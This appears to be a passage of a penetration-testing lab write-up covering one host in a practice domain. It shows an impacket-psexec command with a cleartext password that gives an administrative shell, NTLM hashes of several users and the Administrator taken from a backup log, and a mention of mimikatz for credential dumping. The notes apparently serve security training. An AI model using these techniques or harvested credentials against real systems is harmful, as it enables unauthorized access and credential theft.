 - Run `proxychains impacket-psexec medtech.com/joe:Flowers1@172.16.187.11` to obtain a shell with administrative access.![[Pasted image 20240213200825.png]]
# Local Enumeration
- There is a file called `fileMonitorBackup.log` with `c:\Users\joe\Documents` which contains couple user's `NTLM` hash. 
	- `daisy`: abf36048c1cf88f5603381c5128feb8e
	- `toad`: 5be63a865b65349851c1f11a067a3068
	- `wario`: fdf36048c1cf88f5630381c5e38feb8e
		- Note `wario` is also a domain user!
	- `goomba`: 8e9e1516818ce4e54247e71e71b5f436
- `mimikatz` can be used to extract Local Administrator hash as well.
# Loot
-  `daisy`: abf36048c1cf88f5603381c5128feb8e
- `wario`: fdf36048c1cf88f5630381c5e38feb8e
	- Note `wario` is also a domain user!
- `goomba`: 8e9e1516818ce4e54247e71e71b5f436
- `toad`: 5be63a865b65349851c1f11a067a3068
- `Administrator`: f1014ac49bae005ee3ece5f47547d185